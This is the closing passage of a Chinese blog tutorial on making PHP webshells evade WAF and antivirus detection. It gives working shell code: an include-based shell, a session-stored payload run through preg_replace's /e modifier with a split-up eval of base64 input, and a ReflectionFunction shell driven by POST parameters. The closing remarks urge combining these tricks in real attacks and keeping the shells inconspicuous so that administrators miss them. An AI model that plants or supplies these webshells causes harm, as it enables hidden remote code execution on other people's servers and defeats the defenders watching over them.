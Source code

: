 ![img](https://klionsec.github.io/img/base64%20array.png)

利用包含特性,也是一种相对比较原始的waf bypass方式:

```PHP
<?php include './include_shell.txt'?>php
```



![img](https://klionsec.github.io/img/webshell%20include.png)

利用session机制免杀:

```php
<?php 
session_start();$_SESSION['cmd'] = trim($_POST['code']);
echo preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'cmd\']))','a');
?>
```

>preg_replaced的eis
>
>修饰符： 
>在正则表达式里面的修饰符可以改变正则的很多特性，使得正则表达式更加适合你的需要（注意：修饰符对于大小写是敏感的，这意味着"e"并不等于"E"）。正则表达式里面的修饰符如下： 
>**i ：如果在修饰符中加上"i"，则正则将会取消大小写敏感性，即"a"和"A" 是一样的。** 
>m：默认的正则开始"^"和结束"$"只是对于正则字符串如果在修饰符中加上"m"，那么开始和结束将会指字符串的每一行：每一行的开头就是"^"，结尾就是"$"。 
>s：如果在修饰符中加入"s"，那么默认的"."代表除了换行符以外的任何字符将会变成任意字符，也就是包括换行符！ 
>**x：如果加上该修饰符，表达式中的空白字符将会被忽略，除非它已经被转义。** 
>**e：本修饰符仅仅对于replacement有用，代表在replacement中作为PHP代码。** 
>A：如果使用这个修饰符，那么表达式必须是匹配的字符串中的开头部分。比如说"/a/A"匹配"abcd"。 
>E：与"m"相反，如果使用这个修饰符，那么"$"将匹配绝对字符串的结尾，而不是换行符前面，默认就打开了这个模式。 
>U：和问号的作用差不多，用于设置"贪婪模式"。 
>
>?表单非贪婪匹配，即尽可能少的匹配

![img](https://klionsec.github.io/img/session%20shell.png)

利用php反射特性免杀

```php
<?php 
$func = new ReflectionFunction(base64_decode($_POST[m]));
echo $func->invokeArgs(array(base64_decode($_POST[c])));
php?>
```

![img](https://klionsec.github.io/img/ReflectionFunction%20shell.png)



## 5.后话

>上面的给出的这些shell,正常来讲,应该都不会活很久,可能有些早已经死了,不得不说的是,像各种编码函数它本身就是敏感特征
>因为自己目前还在外地,完整环境也不在身边,就没有一一给大家进行实际的免杀测试了,不过这也并不是目的
>这次主要还想跟大家好好梳理一些可以用来免杀的优良特性,大家可以再单独针对这些特性去做深入研究,达到灵活变通才是最终目的
>实战中,假设某一个特性不行,不妨同时几个特性配合着一起来,往往会有不错的效果
>说实话,如果不针对这些带有特殊特性的函数下手,只是简单的见招拆招,基于此思路衍生出来的shell,现阶段的waf是很难做到主动识别的
>当然,等量子或光子计算机及机器学习真正普及的时候,`识别`应该就不是问题了,所以,大家暂可不必担心这些shell被杀,核心还是灵活掌握这些最基本的免杀特性
>没事儿的话,还是非常建议大家多去翻翻php的开发手册,里面还有很多没被发觉出来的宝贝,
>如果真的是深刻理会了,像什么过waf菜刀自然就很容易理解了,其实现在看来还是蛮简单的
>自己拿wireshark跑跑POST包就能看到的很清楚了,然后再针对杀的点逆向一下即可
>其实,随着php快速的升级迭代,有些特性可能并不能适用于所有php版本,这也再正常不过
>以前的虽然是没有了肯定还会有更好的替代品,还是那句话,思路比任何东西都要重要
>可能大家也发现了,这次基本全部都是在说php,并没有涉及到asp,jsp,aspx,java不过其中有些脚本特性都是相通的,大家触类旁通就好了
>实际使用中建议不要用的过于花哨,没错,也许你确实是躲避了waf,但却没能逃过运维大叔们的法眼,所以,越不显眼,代码越正常,长度越短越好
>当然啦,方法肯定不止这么点儿,也期待能和大家一起多交流
>始终坚信,授人以鱼不如授人以渔,^_^ 未完,待续……
